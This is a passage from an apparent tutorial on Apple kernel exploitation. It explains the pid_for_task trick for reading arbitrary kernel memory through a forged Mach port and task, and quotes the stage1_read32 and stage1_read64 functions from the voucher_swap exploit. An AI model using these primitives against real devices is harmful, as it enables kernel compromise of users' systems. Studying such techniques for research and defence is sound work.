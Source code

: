 As discussed earlier, the **pid_for_task** Mach Trap will give out the **PID** of the corresponding task. It looks up the **bsd_info** field in the task struct which points to the corresponding BSD **proc** struct in the kernel, and reads the **p_pid** value. Assuming the **p_pid** field is at an offset of 0x10, and let's say the address you want to read is **addr**, you can create a fake port, which then links to a fake task such that the **bsd_info** field in the task is **addr - 0x10**.

The following code from the voucher_swap exploit tries to do just that.

{% highlight c %}
    /*
     * stage1_read32
     *
     * Description:
     * 	Read a 32-bit value from kernel memory using our fake port.
     *
     * 	This primitive requires that we know the address of the pipe buffer containing our port.
     */
    static uint32_t
    stage1_read32(uint64_t address) {
    	// Do a read to make the pipe available for a write.
    	read_pipe();
    	// Create our fake task. The task's proc's p_pid field overlaps with the address we want to
    	// read.
    	uint64_t fake_proc_address = address - OFFSET(proc, p_pid);
    	uint64_t fake_task_address = pipe_buffer_address + fake_task_offset;
    	uint8_t *fake_task = (uint8_t *) pipe_buffer + fake_task_offset;
    	FIELD(fake_task, task, ref_count, uint64_t) = 2;
    	FIELD(fake_task, task, bsd_info,  uint64_t) = fake_proc_address;
    	// Initialize the port as a fake task port pointing to our fake task.
    	uint8_t *fake_port_data = (uint8_t *) pipe_buffer + fake_port_offset;
    	FIELD(fake_port_data, ipc_port, ip_bits,    uint32_t) = io_makebits(1, IOT_PORT, IKOT_TASK);
    	FIELD(fake_port_data, ipc_port, ip_kobject, uint64_t) = fake_task_address;
    	// Write our buffer to kernel memory.
    	write_pipe();
    	// Now use pid_for_task() to read our value.
    	int pid = -1;
    	kern_return_t kr = pid_for_task(fake_port, &pid);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "pid_for_task", kr, mach_error_string(kr));
    		ERROR("could not read kernel memory in stage %d using %s", 1, "pid_for_task");
    		fail();
    	}
    	return (uint32_t) pid;
    }
{% endhighlight %}
Just combine the method twice and you can now read 64 bits at a time.

{% highlight c %}
    /*
     * stage1_read64
     *
     * Description:
     * 	Read a 64-bit value from kernel memory using our stage 1 read primitive.
     */
    static uint64_t
    stage1_read64(uint64_t address) {
    	union {
    		uint32_t value32[2];
    		uint64_t value64;
    	} u;
    	u.value32[0] = stage1_read32(address);
    	u.value32[1] = stage1_read32(address + 4);
    	return u.value64;
    }
{% endhighlight %}
